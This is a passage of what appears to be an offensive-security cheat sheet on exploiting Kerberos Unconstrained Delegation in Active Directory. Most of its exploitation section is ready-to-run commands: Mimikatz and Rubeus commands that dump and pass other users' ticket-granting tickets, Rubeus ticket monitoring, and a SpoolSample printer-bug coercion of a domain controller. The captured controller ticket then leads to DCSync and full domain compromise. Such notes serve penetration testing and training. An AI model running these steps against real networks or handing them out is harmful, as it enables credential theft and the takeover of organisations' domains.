 PowerShell

# Unconstrained delegation

Unconstrained Delegation can be set on a _frontend service_ (e.g., an IIS web server) to allow it to delegate on behalf of a user to _any service in the domain_ (towards a _backend service_, such as an MSSQL database).

DACL UAC property: `TrustedForDelegation`.

## Exploitation

With administrative privileges on a server with Unconstrained Delegation set, we can dump the TGTs for other users that have a connection. If we do this successfully, we can impersonate the victim user towards any service in the domain.

With Mimikatz:

sekurlsa::tickets /export  
kerberos::ptt c:\path\to\ticket.kirbi

Plaintext

Or with Rubeus:

.\Rubeus.exe triage  
.\Rubeus.exe dump /luid:0x5379f2 /nowrap  
.\Rubeus.exe ptt /ticket:doIFSDCC[...]

PowerShell

We can also gain the hash for a domain controller machine account, if that DC is vulnerable to the printer bug. If we do this successfully, we can DCSync the domain controller (see below) to completely compromise the current domain.

On the server with Unconstrained Delegation, monitor for new tickets with Rubeus.

.\Rubeus.exe monitor /interval:5 /nowrap

PowerShell

From attacking machine, entice the Domain Controller to connect using the printer bug. Binary from [here](https://github.com/leechristensen/SpoolSample).

.\MS-RPRN.exe \\dc.targetdomain.com \\unconstrained-server.targetdomain.com

PowerShell

The TGT for the machine account of the DC should come in in the first session. We can pass this ticket into our current session to gain DCSync privileges (see below).

.\Rubeus.exe ptt /ticket:doIFxTCCBc...

PowerShell

# Constrained delegation
